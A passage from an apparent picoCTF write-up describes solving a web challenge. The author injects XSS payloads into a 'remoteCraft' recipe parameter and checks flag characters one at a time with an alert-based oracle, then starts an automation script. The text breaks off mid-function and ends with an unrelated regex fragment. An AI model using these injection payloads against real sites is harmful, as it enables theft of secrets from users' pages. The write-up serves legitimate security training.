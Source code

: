 ![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bda0e5e8-fe20-4b46-904e-e4d59940d3b3)

The alert statement got executed which means the character "p" is the first character, lets change the character to say "Q"

```
/remoteCraft?recipe={"recipe":[["Air","Water"],["Air","Earth"],["Earth","Water"],["Earth","Fire"],["Fire","Mist"],["Magma","Mud"],["Fire","Mud"],["Magma","Mist"],["Earth","Obsidian"],["Air","Rock"],["Fog","Mud"],["Brick","Fog"],["Obsidian","Water"],["Computer Chip","Hot Spring"],["Computer Chip","Fire"],["Hot Spring","Sludge"],["Internet","Smart Thermostat"],["Computer Chip","Steam Engine"],["Fire","Steam Engine"],["Hot Spring","Steam Engine"],["Artificial Intelligence","Data"],["Artificial Intelligence","Cloud"],["Computer Chip","Electricity"],["Dust","Heat Engine"],["Software","Encryption"],["Cloud Computing","Data"],["Fire","Sand"],["Electricity","Software"],["Internet","Program"],["Artificial Intelligence","Data Mining"],["Glass","Software"],["Cybersecurity","Vulnerability"],["Exploit","Web Design"]],"xss":"if (JSON.parse(atob(window.location.hash.slice(1))).flag[0] == 'q'){alert(1);}"}
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/148f299b-a6ac-4cbf-a6ef-fd8f0fefb863)

Well, the alert statement didn't get executed which means the character "q" isn't the first character of the flag propert

It was easier to test this method here since we know  the fake flag to be ```picoCTF{test_flag}```, so you can confirm if these characters are in the flag property using that query. From the fake flag we know the 10th index in the flag property has the "s" character, lets confirm this with our query

```
/remoteCraft?recipe={"recipe":[["Air","Water"],["Air","Earth"],["Earth","Water"],["Earth","Fire"],["Fire","Mist"],["Magma","Mud"],["Fire","Mud"],["Magma","Mist"],["Earth","Obsidian"],["Air","Rock"],["Fog","Mud"],["Brick","Fog"],["Obsidian","Water"],["Computer Chip","Hot Spring"],["Computer Chip","Fire"],["Hot Spring","Sludge"],["Internet","Smart Thermostat"],["Computer Chip","Steam Engine"],["Fire","Steam Engine"],["Hot Spring","Steam Engine"],["Artificial Intelligence","Data"],["Artificial Intelligence","Cloud"],["Computer Chip","Electricity"],["Dust","Heat Engine"],["Software","Encryption"],["Cloud Computing","Data"],["Fire","Sand"],["Electricity","Software"],["Internet","Program"],["Artificial Intelligence","Data Mining"],["Glass","Software"],["Cybersecurity","Vulnerability"],["Exploit","Web Design"]],"xss":"if (JSON.parse(atob(window.location.hash.slice(1))).flag[10] == 's'){alert(1);}"}
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/25f57128-b970-4550-a46a-6b435f3198f0)

Yeah, the query works😎

Now, how do we test this on the challenge instance??

The challenge instance doesn't spawn a chromium browser even if our recipe is correct, all we get is just the "visiting" message. So in this case we won't be able to tell if a character is in the flag property or not because we don't know if our alert statement is getting executed or not.

So we came up with something else, my teammate wrote a python script

```python
import requests
import json
import string

def search():
    # binary search algo implementation
    pass

def doxss(xss):
    return json.dumps({
```

[ ]: Matches any one character within the specified range or set.